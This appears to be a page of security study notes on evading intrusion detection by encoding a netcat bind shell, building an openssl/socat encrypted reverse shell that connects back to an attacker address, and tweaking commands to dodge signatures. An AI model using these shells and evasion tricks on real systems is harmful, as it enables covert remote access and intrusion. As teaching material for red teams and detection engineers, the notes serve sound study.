 # Evasion via payload manipulation

Evasion via payload manipulation includes:

* Obfuscating and encoding the payload.
* Encrypting the communication channel.
* Modifying the shellcode.

## Obfuscating and encoding the payload

Because IDS rules are very specific, minor changes to avoid detection can work. The changes include adding extra bytes, 
obfuscating the attack data, and encrypting the communication.

Consider the command `ncat -lvnp 1234 -e /bin/bash`, where `ncat` will listen on TCP port `1234` and connect any 
incoming connection to the Bash shell. There are a few common transformations such as Base64, URL encoding, and 
Unicode escape sequence that can be applied to the command to avoid triggering IDS/IPS signatures.

Encode to a Base64 format:

```text
$ cat input.txt
ncat -lvnp 1234 -e /bin/bash
$ base64 input.txt
bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==
```

URL encoding:

```text
$ urlencode ncat -lvnp 1234 -e /bin/bash
ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
```

## Escaped Unicode

Some applications will still process input and execute it properly if escaped Unicode is used. There are multiple 
ways to use escaped Unicode depending on the system processing the input string. For example, 
[CyberChef](https://icyberchef.com/)  can be used to select and configure the Escape Unicode Characters.

1. Search for Escape Unicode Characters
2. Drag it to the Recipe column
3. Check-mark Encode all chars with a prefix of `\u`
4. Make sure there is a check-mark near Uppercase hex with a padding of 4

| ![Cyberchef](../../_static/images/cyberchef-netsec.png) |
|:--:|
| Clearly a drastic transformation that would help evade detection, assuming the target system will <br>interpret it correctly and execute it. |

Using the format `\uXXXX`, `ncat -lvnp 1234 -e /bin/bash` becomes: 

    \u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068 

## Encrypting the communication channel

Because an IDS/IPS will not inspect encrypted data, an attacker can take advantage of encryption to evade detection. 
Unlike encoding, encryption requires an encryption key and decrypting on the other side.

One direct approach is to create the necessary encryption key on the attacker’s system and set socat to use the 
encryption key to enforce encryption as it listens for incoming connections. An encrypted reverse shell can be 
carried out in three steps:

1. Create the key
2. Listen on the attacker’s machine
3. Connect to the attacker’s machine

Create key using `openssl`:

    $ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
    $ ls
    thm-reverse.crt  thm-reverse.key

* `req` indicates that this is a certificate signing request (not submitting it for signing).
* `-x509` specifies an X.509 certificate
* `-newkey rsa:4096` creates a new certificate request and a new private key using RSA, with the key size being 4096 
bits.
* `-days` validity in days
* `-subj` sets data, such as organization and country, via the command-line.
* `-nodes` simplifies the command and does not encrypt the private key
* `-keyout` PRIVATE_KEY specifies the filename to save the private key to
* `-out` CERTIFICATE specifies the filename to which to write the certificate request

The command returns a private key `thm-reverse.key` and a certificate `thm-reverse.crt`.

The Privacy Enhanced Mail (PEM) `.pem` file requires the concatenation of the private key `.key` and the certificate 
`.crt` files:

    cat thm-reverse.key thm-reverse.crt > thm-reverse.pem

With the PEM file ready, start listening while using the key for encrypting the communication with the client:

    socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

On the target system, connect back:

    socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash

## Modifying the shellcode

Consider the simple case of using Ncat to create a bind shell. The command `ncat -lvnp 1234 -e /bin/bash` tells 
ncat to listen on TCP port 1234 and bind Bash shell to it. If you want to detect packets containing such commands, 
you need to think of something specific to match the signature but not too specific.

* Scanning for `ncat -lvnp` can be easily evaded by changing the order of the flags.
* On the other hand, inspecting the payload for `ncat -` can be evaded by adding an extra white space, such as 
`ncat  -` which would still run correctly on the target system.
* If the IDS is looking for `ncat`, then simple changes to the original command are unlikely to evade detection. 
Consider more sophisticated approaches depending on the target system/application. One option would be to use a 
different command such as nc or socat. Alternatively, consider a different encoding if the target system can 
process it properly.

## Resources

* [section 2.4 in RFC 3986 (URL encoding: When to Encode or Decode)](https://datatracker.ietf.org/doc/html/rfc3986#section-2.4)

